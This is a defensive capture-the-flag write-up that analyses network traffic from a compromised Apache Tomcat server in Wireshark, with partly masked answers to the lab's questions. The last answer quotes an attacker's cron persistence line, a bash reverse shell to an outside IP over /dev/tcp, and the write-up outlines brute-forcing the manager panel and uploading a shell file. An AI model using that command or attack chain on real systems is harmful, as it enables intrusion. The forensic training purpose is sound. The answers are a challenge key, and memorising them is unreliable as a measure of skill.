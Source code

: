 ```yaml
---
layout: page
title: Tomcat Takeover
categories: CTFs
permalink: /cyberdefenders/tomcat-takeover/
---
```


# Details

https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/

Instructions:

Uncompress the lab (pass: cyberdefenders.org)
Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:

Wireshark
NetworkMiner

# Solution

## Question 1
**Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**

The question is asking us to find the IP address that is performing a port scannin operation on our network. To find this we can go ahead and go to Statistics > Endpoints > TCP to get a better idea as to which IP address is making the most requests to different port numbers.

![Endpoint](https://github.com/user-attachments/assets/cf53e731-e8e8-40a3-a6e0-e9d21122f006)


Looking at the results we can see that the IP 1*.0.0.*** has made requests to various port numbers most of them being above the common ports range which warrants suspicious behaviour.

### Answer
1*.0.0.***

## Question 2
**Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?**

For this we can simply go to a site like abuseipdp.com and check IP information.

![AbuseIPDP](https://github.com/user-attachments/assets/62852fc9-eb22-469a-9dcd-8b852f91fd1c)


### Answer
G********

## Question 3
**From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?**

For this we can start of by filtering for HTTP packets, since the question is asking to find the port relating to a web server which communicates in HTTP.

![http](https://github.com/user-attachments/assets/d5d8dfe8-ce82-47fe-805d-32adb8b0aefc)

This gives us a bunch of packets. Now let's try narrowing it down even further. We can go to Statistics > Conversations to get a clear look into what ports are involved in the HTTP packets.


![PORT](https://github.com/user-attachments/assets/6c987d6d-4a1e-42e6-949c-ee5a02e2e3e5)


Looking at the results it seems there is only one port involved in HTTP which we can safely conclude that this is the correct answer. Should there have been more ports than one which is unlikely we could have gone on to filter for the ports that involve an admin page.

### Answer
8***

## Question 4
**Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**

Looking at the HTTP packets we can see a bunch of requests that are made in a short period of time indicating an automation. This is typical behaviour for directory busting software.

![dirbust_sus](https://github.com/user-attachments/assets/26c67847-8f04-42b5-9170-d817032451c1)


Looking at one of these packets reveals to us the tool used by the attacker

![tool](https://github.com/user-attachments/assets/bfeedc2d-44df-471d-9992-f36ceb374f83)

### Answer
go******

## Question 5
**Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?**

To find this we can use the filter 'http.request or http.response.code != 404' this filter will filter for HTTP Requests and Responses for the pages that exist within the server. This will allow us to more efficiently sift through the data.

After sifting through the data we stumble across the admin panel

![admin](https://github.com/user-attachments/assets/2be6ad5f-beab-4b45-b809-115f6c964b5b)

We can see a request for /m*****/h*** which provides a response of Unauthorized telling us that that page is only accessible to admins.

### Answer
/m******

## Question 6
**Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?**

To find this we can look through all the requests to /manager/html until we find a response OK to that request.


![OK](https://github.com/user-attachments/assets/30243610-fff4-432f-b637-8aea2167e464)

We can see that after a series of unsuccessful attempts the attacker gets an OK response from the server indicating that the credentials worked. To look at what credentials they used we can check the Authorization header under the HTTP data in the Packet

![credentials](https://github.com/user-attachments/assets/3c94631a-aca0-48aa-9740-6c0fcf13deda)


### Answer
a****:t*****

## Question 7
**Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

To find this we can filter for POST packets. This can be done using the filter 'http.request.method == POST'.

![POST](https://github.com/user-attachments/assets/903d536a-a692-4d24-80a1-ddd090d2e557)

We can see that there is only 1 POST packet, looking into the packet information we can see what file was uploaded.

![file](https://github.com/user-attachments/assets/bfd8e059-5089-41af-bd71-fbdca50f4c5e)


### Answer
J*****.**r

## Question 8
**Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**

To find this we can look for a request to the file that was uploaded, since the server needs to run the file for the commands to be executed, and then look at subsequent connections between the attacker and the server to find any commands run by the attacker

![search](https://github.com/user-attachments/assets/2144f96b-fb0c-43b1-ba90-0dd75e56f202)

We can see that the attacker sent a request to GET /JXQOZY/ indicating that the attacker tried to run the malicious file that we uncovered in the previous question. We can see a few packets later that the server sends an OK response indicating that the malicious file was opened. Looking at the next few packets we stumble upon a packet which has 'whoami' as part of it's data. whoami is a common command which is used by attackers to find out what account they are currently using. Following this TCP Stream we can uncover all the other commands run by the attacker.

![persistence](https://github.com/user-attachments/assets/f76ca117-79af-4068-96a6-d712599afc87)

We can see that there is a command for cron, which is a task scheduler for Unix like operating systems, which is commonly used for persistence by attacker.

### Answer
/b**/b*** -* '**** -* >& /***/tcp/14.0.0.**0/**3 0>&1'
